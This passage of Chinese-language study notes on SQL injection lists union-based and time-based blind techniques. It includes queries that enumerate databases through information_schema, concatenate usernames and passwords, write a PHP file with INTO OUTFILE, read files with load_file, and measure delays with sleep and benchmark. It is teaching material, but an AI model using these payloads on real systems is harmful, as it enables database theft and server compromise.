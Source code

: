 - 获取内容长度和内容

  ​	select concat(username,”----------”,password) from accounts;

### 5.2 联合注入

- 获取字段的总数
  - order by 1 依第一列排序 直到无结果为止 可知该表中有多少列
  - group by
  - 进行联合查询
- 获取数据库
  - database() 查询当前数据库名
  - user() 查询当前用户
  - version() 查询当前数据库版本
- 获取该数据库中的表
  - select table_name from information_schema.tables where table_schema=database()
- 获取该表中的字段
  - select column_name from information_schema.columns where table_name=“table_name”
  - TABLE_NAME 表名
  - TABLE_SCHEMA 库名
  - COLUMN_COMMENT 列注释
  - COLUMN_NAME 列名
  - information_schema.COLUMNS 储存了每张表中列的信息
  - information_sc 存了每张表的信息
  - information_schema.SCHEMATA 储存了所有库的信息

```sql
select <?php phpinfo(); ?> into outfile "./phpinfo.php"; -- 文件导出后执行该文件能获得phpinfo界面
select load_file(""); -- 读入文件
```

- #是html锚点url编码是%23

### 5.3 延时注入
用于报错信息被过滤的情况
```sql
sleep(second) -- 配合if使用，延迟second秒也有可能因为网络延迟更长的时间
benchmark(N,expression) -- 执行expression语句N次通常用计算哈希函数md5的方法上万次，达到延迟的效果
```
- 获取数据库总数
- 获取数据库长度
- 获取表的总数
- 获取表i的长度
- 获取表的内容
- 获取字段总数
- 获取字段长度
- 获取字段的内容

```sql
sleep(if(condition,x,y)); -- 为真返回x，为假返回y
```

### 5.4 报错注入
